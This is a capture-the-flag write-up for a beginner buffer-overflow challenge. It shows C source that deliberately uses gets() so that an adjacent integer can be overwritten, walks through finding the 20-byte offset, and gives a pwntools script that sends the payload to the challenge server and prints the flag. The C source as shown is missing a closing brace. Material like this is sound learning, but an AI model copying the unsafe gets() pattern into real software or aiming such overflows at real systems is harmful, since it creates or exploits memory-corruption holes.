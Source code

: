 ```yaml
---
title: "Buffer Overflow"
date: 2021-12-11
draft: false
tags: ["Pwn"]
categories: ["Pwn"]
summary: "Writeup for Buffer Overflow"
author: "1byteBoy"
---
```


## Description

**`Author : rennfurukawa`**

Maybe it's your first time pwning? Can you overwrite the variable?

`nc ctf.tcp1p.com 17027`

-----------------

## Intuition

*Honestly i knew nothing about buffer overflows not even a A of it, but i did take time to learn some basic practises where we can overflow a stack by putting a long input, this is mainly due to a vulnerable function in C programming language named `gets()`* 

on connecting it asks us for an input

```
Can you get the exact value to print the flag?
Input:
```

so if we put some A's say `AAAAA` it says the following

```
Sad, too low! :(, maybe you can add *more* value 0_0

Output : AAA, Value : 0
```

now if we put a long string of A's `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`

```
Too high!

Output : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, Value : 1094795585
```

note that the value changed from 0 to some large value too. 

*now to exactly understand what's going on, i have to download the source code file that came along with the challenge*

```c
#include <stdio.h>
#include <stdlib.h>

char buff[20];
int buff2;

void setup(){
	setvbuf(stdin, buff, _IONBF, 0);
	setvbuf(stdout, buff, _IONBF, 0);
	setvbuf(stderr, buff, _IONBF, 0);
}

void flag_handler(){
	FILE *f = fopen("flag.txt","r");
	if (f == NULL) {
	printf("Cannot find flag.txt!");
	exit(0);
}

void buffer(){

	buff2 = 0;
	printf("Can you get the exact value to print the flag?\n");
	printf("Input: ");
	fflush(stdout);
	gets(buff);
	if (buff2 > 5134160) {
		printf("Too high!\n\n");
	} else if (buff2 == 5134160){
		printf("Congrats, You got the right value!\n");
		system("cat flag.txt");
	} else {
	printf("Sad, too low! :(, maybe you can add *more* value 0_0\n\n");
	}
	printf("\nOutput : %s, Value : %d \n", buff, buff2);
}

int main(){
	flag_handler();
	setup();
	buffer();
}
```

we can see that the initial buffer value or the input buffer size is `20` named *buff* and the code is doing something where is the extra buffer value is initialised to the integer variable named `buff2`  

and then in the conditional statement it is checking for that size, where if the buffer size is equal to 5134160 then we get our flag.

so i compiled the code and started testing on it, first thing i tried is checking the original buffer size by putting 20 A's in input field

```
Can you get the exact value to print the flag?
Input: AAAAAAAAAAAAAAAAAAAA
Sad, too low! :(, maybe you can add *more* value 0_0

Output : AAAAAAAAAAAAAAAAAAAA, Value : 0
```

expected, but what if we add one more A

```
Can you get the exact value to print the flag?
Input: AAAAAAAAAAAAAAAAAAAAA
Sad, too low! :(, maybe you can add *more* value 0_0

Output : AAAAAAAAAAAAAAAAAAAAA, Value : 65
```

okay 65, now if we observer 65 is ASCII value of capital letter `A`

that means after 20 A's we have to add some character's who's ASCII value set's to hex of `5134160`

## Solution

```
$ python3
>> hex(5134160)
'0x50574e'
```

which is ASCII is `PWN`

now if we enter `AAAAAAAAAAAAAAAAAAAAPWN`

```
Can you get the exact value to print the flag?                            
Input: AAAAAAAAAAAAAAAAAAAAPWN 
Congrats, You got the right value!                 
TCP1P{ez_buff3r_0verflow_l0c4l_v4r1abl3_38763f0c86da16fe14e062cd054d71ca} 
Output : AAAAAAAAAAAAAAAAAAAAPWN, Value : 5134160
```

*other way if we have done it is compiling the source code and open it with a tool named `ghidra`* where looking at the `buffer` function would gave us the same idea clearly 

```c
  if ((int)buff2 < 0x4e5751) {
    if (buff2 == 0x4e5750) {
      puts("Congrats, You got the right value!");
      system("cat flag.txt");
    }
    else {
      puts("Sad, too low! :(, maybe you can add *more* value 0_0\n");
    }
```

Here is getting done with code i have wrote with python

```python
#!/usr/bin/python3

from pwn import *

ip = 'ctf.tcp1p.com'
port = '17027'
r = remote(ip, port)

# setup
int_value = 5134160
hexa_string = hex(int_value)
slicing = hexa_string[2:]
converting_hexa = bytes.fromhex(slicing)
ascii_string = converting_hexa.decode()[::-1]

# payload
offset = 'A' * 20
payload = offset + ascii_string
  
# send payload
r.sendline(payload)
print(r.recvall().decode())
```

`TCP1P{ez_buff3r_0verflow_l0c4l_v4r1abl3_38763f0c86da16fe14e062cd054d71ca}`